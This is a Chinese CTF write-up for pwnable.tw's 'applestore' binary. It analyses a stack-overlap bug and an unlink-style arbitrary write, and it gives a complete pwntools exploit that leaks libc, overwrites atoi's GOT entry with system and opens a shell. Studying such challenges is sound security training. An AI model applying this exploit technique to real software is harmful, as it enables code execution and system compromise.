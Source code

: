 ## apple store

### 题目分析

整道题目除了输入数字就没有其他的输入了，所以只能在这些数字输入上找洞。可以添加，删除，和打印手机类型，但是这些函数都不需要你来输入，手机的名称是内置的字符串。但是在进行这些操作时会输入一些数字和字母，按理来说输入这些东西只需要开0x8个字节的缓冲区就够了，题目一下子开了0x15个字节的缓冲区一看就有问题。

另外，checkout函数在总销售额达到7174的时候，会在==栈上而不是堆上==创建一个销售记录并且插入链表中。

### 漏洞分析

因为这些所有的操作函数（add,show,delete）函数都是在handler这个函数中被调用，所以在调用时这些函数的ebp都是相同的。checkout函数会在栈上ebp - 0x20的地方申请一个note插入表中。而delete和show函数，的输入函数缓冲区也恰好开在 ebp - 0x22的地方，所以delete和show函数的输入恰好可以覆盖掉note中的内容。这就是漏洞所在。

```c
  phone v2; // [esp+18h] [ebp-20h] BYREF    note的位置
  unsigned int v3; // [esp+2Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  v1 = cart();
  if ( v1 == 7174 )
  {
    puts("*: iPhone 8 - $1");
    asprintf((char **)&v2, "%s", "iPhone 8");
    v2.size = 1;
    insert(&v2);
    v1 = 7175;
  }
--------------------------------------------------------------------------------------nsigned int delete()
{
  int count; // [esp+10h] [ebp-38h]
  phone *note_ptr_; // [esp+14h] [ebp-34h]
  int idx; // [esp+18h] [ebp-30h]
  phone *next_ptr; // [esp+1Ch] [ebp-2Ch]
  phone *prev_ptr; // [esp+20h] [ebp-28h]
  char nptr[22]; // [esp+26h] [ebp-22h] BYREF  buffer的位置，正好覆盖note！！！！
  unsigned int v7; // [esp+3Ch] [ebp-Ch]

  v7 = __readgsdword(0x14u);
  count = 1;
  note_ptr_ = (phone *)begin_;
  printf("Item Number> ");
  fflush(stdout);
  my_read(nptr, 0x15u)
  ......
}
```

### 漏洞利用

```c
00000000 phone           struc ; (sizeof=0x10, mappedto_7)
00000000 name            dd ?
00000004 size            dd ?
00000008 next_ptr        dd ?
0000000C prev_ptr        dd ?
00000010 phone           ends
```

note的结构如上所示，其中name中保存的是一个指向str的ptr，这个str在show的时候会被打印出来。如果把这个ptr覆盖成got的地址就可以进行泄露。

另外来看一下delete的具体操作。

```c
cwhile ( note_ptr_ )
  {
    if ( count == idx )
    {
      next_ptr = (phone *)note_ptr_->next_ptr;
      prev_ptr = (phone *)note_ptr_->prev_ptr;
      if ( prev_ptr )
        prev_ptr->next_ptr = (int)next_ptr;
      if ( next_ptr )
        next_ptr->prev_ptr = (int)prev_ptr;
      printf("Remove %d:%s from your shopping cart.\n", count, (const char *)note_ptr_->name);
      return __readgsdword(0x14u) ^ v7;
    }
    ++count;
    note_ptr_ = (phone *)note_ptr_->next_ptr;
  }
```

delete一个note只不过是将他从链表中取下来，并没有清空指针。在清空的过程中可以使用unlink的技巧，将prev_ptr修改为目标地址 - 0x10，就可以将next_ptr覆盖到目标地址，而next_ptr也是可以控制的，所以就可以任意地址写一个地址。利用这个漏洞将atoli的got表修改为system就可以拿到shell。

### EXP：

```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./applestore"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=[]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("chall.pwnable.tw",10104)
    libc=ELF("./libc.so.6")
def get_base(a):
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    for key in a.libs():
        if "libc.so.6" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *0x08048BFD
    b *0x080489E0
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("",str(idx))
def add(idx):
    a.sendlineafter("> ",str(2))
    a.sendlineafter("Device Number> ",str(idx))
    return 

def delete(idx):
    a.sendlineafter("> ",str(3))
    a.sendlineafter("Item Number> ",idx)
    return 
    
def check_out():
    a.sendlineafter("> ",str(5))
    a.sendlineafter("Let me check your cart. ok? (y/n) > ",'y')
    return 
    
def show(payload):
    a.sendlineafter("> ",str(4))
    a.sendlineafter("Let me check your cart. ok? (y/n) > ",payload)
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33

for i in range(6):
    add(1)
for i in range(20):
    add(2)
check_out()
atoi_got = elf.got["atoi"]
payload = "y\x00" + p32(atoi_got)  + p32(0)
show(payload)
a.recvuntil("27: ")
libc_base = u32(a.recv(4)) - libc.sym["atoi"]
fuck(libc_base)#leak libc_base
payload = payload = "y\x00" + p32(libc_base + libc.sym["environ"])  + p32(0)
show(payload)
a.recvuntil("27: " )
stack_addr = u32(a.recv(4)) - 0xc4 -0xc -0x34 -0x8
fuck(stack_addr)

for i in range(19):
    delete(str(7) + '\x00')

payload = "8\x00" + p32(atoi_got) + p32(0)+p32(atoi_got + 0x22) +p32(stack_addr)
#debug()
delete(payload)
payload = p32(libc_base + libc.sym["system"]) + ';' + "/bin/sh\x00"
a.sendlineafter("> ",payload)
a.interactive()
```

